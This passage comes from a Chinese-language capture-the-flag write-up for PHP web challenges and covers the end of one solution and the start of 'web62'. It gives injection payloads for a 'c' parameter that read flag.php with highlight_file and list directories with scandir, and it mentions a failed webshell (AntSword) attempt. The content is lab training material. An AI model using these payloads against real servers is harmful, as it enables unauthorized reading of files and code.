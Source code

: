 使用读取文件函数进行读取

```
c=highlight_file("flag.php");
```

得到flag

![image-20240122121149034](image/image-20240122121149034.png)

------

#### web62

同样，先试一下蚁剑，不出预料的失败了

构建命令查看flag位置

```
c=print_r(scandir(dirname('__FILE__')));
```
